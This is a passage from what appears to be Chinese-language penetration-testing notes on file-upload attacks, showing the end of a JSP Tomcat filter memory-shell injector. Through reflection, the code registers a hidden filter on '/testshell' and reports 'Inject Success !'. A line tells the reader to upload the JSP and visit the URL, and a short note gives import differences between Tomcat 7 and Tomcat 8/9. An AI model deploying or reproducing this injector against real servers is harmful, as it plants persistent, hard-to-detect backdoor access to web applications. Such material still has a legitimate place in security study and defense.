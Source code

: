 ```jsp
    filterDef.setFilterClass(filter.getClass().getName());
    /**
     * 将filterDef添加到filterDefs中
     */
    standardContext.addFilterDef(filterDef);

    FilterMap filterMap = new FilterMap();
    filterMap.addURLPattern("/testshell");
    filterMap.setFilterName(name);
    filterMap.setDispatcher(DispatcherType.REQUEST.name());

    standardContext.addFilterMapBefore(filterMap);

    Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
    constructor.setAccessible(true);
    ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);

    filterConfigs.put(name,filterConfig);
    out.print("Inject Success !");
  }
%>

```

上传jsp文件后执行，访问对应url。

![image-20220427104210649](文件上传.assets/image-20220427104210649.png)

tomcat 7 与 tomcat 8 在 FilterDef 和 FilterMap 这两个类所属的包名不一样

```jsp
<!-- tomcat 8/9 -->

<!-- page import = "org.apache.tomcat.util.descriptor.web.FilterMap"

<!-- page import = "org.apache.tomcat.util.descriptor.web.FilterDef" -->



<!-- tomcat 7 -->

<%@ page import = "org.apache.catalina.deploy.FilterMap" %>

<%@ page import = "org.apache.catalina.deploy.FilterDef" %>
```
